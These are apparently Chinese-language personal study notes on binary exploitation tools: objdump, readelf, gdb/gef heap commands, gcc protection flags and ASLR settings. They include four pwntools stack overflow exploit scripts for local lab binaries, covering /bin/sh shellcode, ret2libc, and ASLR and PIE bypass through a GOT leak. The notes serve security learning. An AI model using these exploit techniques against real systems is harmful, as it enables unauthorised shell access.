# objdump
- -sd：使用objdump查看elf文件（可重定位文件 .o）内容
- -x -s -d：读取section信息
- -h：查看各section，可以用于查看.got等数据结构
- -d -M --section=：查看指定section的反汇编内容
- -r：查看重定位信息
- -d -j .plt:查看plt表
- -R查看对应got表,实际上是输出程序的动态重定位表
# readelf
- -h：查看指定elf的文件头信息
- -S：查看指定efl的节表信息
- -x：查看指定section（查看字符串表）
- -s：查看符号表
- -r：查看重定位表
- -l：查看段表,同时可以看到段与节的对应关系(实际为查看elf程序头信息),此时也可以查看到elf解释器，在32位系统上是“/lib/ld-linux.so.2”，在x86_64系统中是“/lib64/ld-linux-x86-64.so.2”，：
# pwntools关键流程
- pwntools官方文档4.5.1 https://docs.pwntools.com/en/stable/
- pwntools翻译版文档3.50 https://pwntoolsdocinzh-cn.readthedocs.io/en/master/intro.html
```python
#4.3.3节，无任何安全机制，直接返回到栈中shellcode
from pwn import *
io=process('./a.out')
ret=0xffffd010
shellcode="\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f"+\
          "\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
payload=shellcode+"A"*(140-len(shellcode))+p32(ret)
io.send(payload)
io.interactive()
```
```python
# 4.3.3节，绕过nx
from pwn import *
io = process("./b.out")#导入本地进程
# 构造payload
payload="a"*100+p32(system_addr)+p32(ret)+p32(binsh_addr)
io.send(payload)#向目标程序发送paylaod
io.interactive()#等待目标程序返回交互
```
```python
# 4.4.4,完全开启aslr，关闭:pie、栈cookie、nx
from pwn import *
io=process('./a.out')
elf=ELF('./a.out')
#libc=ELF('./libc.so.6')
libc=ELF('/lib32/libc.so.6')
vuln_func=0x0804843b
payload1="A"*140+p32(elf.sym['write'])+p32(vuln_func)+p32(1)+p32(elf.got['write'])+p32(4)
io.send(payload1)
write_addr=u32(io.recv(4))
system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))
payload2="B"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
io.send(payload2)
io.interactive()
```
```python
# 4.4.4,完全开启aslr,pie、关闭：栈cookie、nx
from pwn import*
io=process('./_pie_fpie_print_main.out')
elf=ELF('./_pie_fpie_print_main.out')
libc=ELF('/lib32/libc.so.6')
main_addr=int(io.recvline(),16)
base_addr=main_addr-elf.sym['main']
vuln_func=base_addr+elf.sym['vuln_func']
plt_write=base_addr+elf.plt['write']
got_write=base_addr+elf.got['write']
ebx=base_addr+0x2000
payload1="A"*132+p32(ebx)+"AAAA"+p32(plt_write)+p32(vuln_func)+p32(1)+p32(got_write)+p32(4)
io.send(payload1)
write_addr=u32(io.recv())
system_addr=write_addr-libc.sym['write']+libc.sym['system']
binsh_addr=write_addr-libc.sym['write']+next(libc.search('/bin/sh'))
payload2="A"*132+p32(ebx)+"AAAA"+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
#this payload2 is also work
#payload2="A"*140+p32(system_addr)+p32(vuln_func)+p32(binsh_addr)
io.send(payload2)
io.interactive()
```
- 调用shellcraft模块直接生成指定架构下的shellcode
  - shellcode=shellcraft.i386.sh()
  - 
- 使用pwntools中的srop模块：pwnlib.rop.srop
  - 10.4.3节
- pwntools中进行rop
- 10.2.3节
# gdb
- 查看plt表及got表
- 反汇编代码
  - 当存在符号信息时，可以指定特定函数名反汇编该函数
  - 
- 显示字符串及底层十六进制数据
- 通过gdb调试获得进程中的环境变量表
- 使用gdb调试核心转储
- 查看被调试程序源码：list
- 打印此时程序调用栈：bt
- ***直接获得相关函数的地址：p system*** 也可以使用print命令
- 显示函数：info function
- 显示寄存器：info registers
- 显示内存数据 x 
  - x/4wx：显示4个数据块，每个数据块长度四字节，以十六进制显示
  - x/10s：显示10个数据块，将数据解析为字符串
  - x/2i：显示12个数据块，每个数据块反汇编为汇编代码
  - 注意若使用x显示指定指针变量指向的内存时，需要在指针变量前加&，例如x/10gx &fake_chunks
    - 
  - vmmap：显示程序的内存映射
  - vmmap heap：显示程序heap段的内存映射
- 在被调试运行之前可以对被调试程序进行反汇编，从而查看程序运行前后代码的变化
  - 程序运行前查看main函数的反汇编
    - 
  - 程序运行后查看main函数反汇编
    - 
  - 从两者对比看，可以发现程序运行后进行了重定位相关操作，将针对write函数的调用修改为write函数在lib库中的内存地址
- gef使用手册：
  - 官方：https://gef.readthedocs.io/en/master/
  - 译文版：https://github.com/hebtuerror404/book_Chinese/blob/master/Gef%20%E4%BD%BF%E7%94%A8%E6%89%8B%E5%86%8C.pdf （已下载到本地）
- ***gef核心功能 （具体使用查看gef文档）***
  - pattern create：创建指定长度字符串
  - pattern offset：搜索指定序列在字符串中的偏移
  - pattern search：搜索指定序列在字符串中的位置
  - search-pattern：在进程中搜索指定字符串，也可用于搜索地址交叉引用，相当于命令xref
  - grep：在进程中搜索指定字符串，（是search-pattern的别名）
  - xref：搜索进程中地址交叉引用
  - disassemble：disassemble /r main 用于反汇编指定函数，/r可以输出十六进制数据
  - 调试过程中通过python生成自定义字符串，验证返回地址是否被覆盖
    - 
  - dereference $esp:查看当前栈帧
    - 
  - dereference $buf:当buf为栈上地址时，该命令可以从buf开始将栈中数据解析为栈帧
    - 
- gef堆相关操作
  - 查看malloc_state中fastbinY数组的信息：p main_arena.fastbinY
  - 查看进程中的fastbin中的chunk：heap bins fast
    - 
  - 查看进程中的smallbin中的chunk：heap bin small
  - 查看main_arena中的fastbins、unsortedbin、smallbins中的bins指针：x/20gx (void*)&main_arena+0x8（该命令具体原理还不是很清楚）
    - 
    - 
    - 此时chunk的状态
      - 
  - 查看main-arena中的top chunk信息：p main_arena.top
    - 
  - 已知一个堆块指针，查找同类型的堆块指针，由于堆块指针在内存中连续存放，故可以通过查看已知指针的所在内存，从而找到其他指针，即x/gx &p1
    - 
  - 查看TCache相关count、entries数据结构（详见unsorted bin into stack示例程序）
    - 
# gcc
- 部分参见第二章：二进制文件
- gcc编译时开启与关闭栈安全cookie
- gcc编译时开启与关闭NX
- gcc编译时关闭nx，canary，ASLR
- gcc中pie相关的flag
  - gcc编译时关闭pie
- gcc完全开启aslr与pie，程序的内存地址会进行完全的随机化
- 开关FORTIFY_SOURCE机制：使用-D_FORTIFY_SOURCE=1或2编译选项指定检查等级，-D_FORTIFY_SOURCE=0时关闭该保护机制
  - 
- gcc关闭RELRO机制：-z norelro
  - 
- gcc开启Partial RELRO：-z lazy
  - 
- gcc开启Full RELRO:-z now
  - 
# 配置linux中ASLR的启用情况
- 
  - 0表示关闭ASLR；
  - 1表示部分开启（将mmap的基址，stack和vdso页面随机化）；
  - 2表示完全开启（在部分开启的基础上增加 heap的随机化）
  - 
# ROPgadget
- 使用ROPgadget在指定libc中搜索特定gadget
  - 
# 使用change_ld.py脚本替换程序编译时所依赖的libc
-  
- 详细内容见：第五章：分析环境搭建.md